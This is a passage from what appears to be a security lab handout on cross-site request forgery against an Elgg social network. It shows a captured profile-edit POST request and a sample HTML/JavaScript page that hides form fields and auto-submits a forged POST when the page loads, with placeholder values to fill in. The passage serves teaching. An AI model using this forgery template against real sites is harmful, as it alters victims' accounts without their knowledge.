 ```
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&__elgg_ts=1403464813  (*@\ding{80}@*)
&name=elgguser1&description=%3Cp%3Iamelgguser1%3C%2Fp%3E
&accesslevel%5Bdescription%5D=2&briefdescription= Iamelgguser1
&accesslevel%5Bbriefdescription%5D=2&location=US
......                                                              (*@\ding{80}@*)
```

After understanding the structure of the request, you need to be able to
generate the request from your attacking web page using JavaScript code.
To help you write such a JavaScript program, we provide a sample code in
the following You can use this sample code to construct your malicious
website for the CSRF attacks. This is only a sample code, and you need
to modify it to make it work for your attack.

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]'
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```
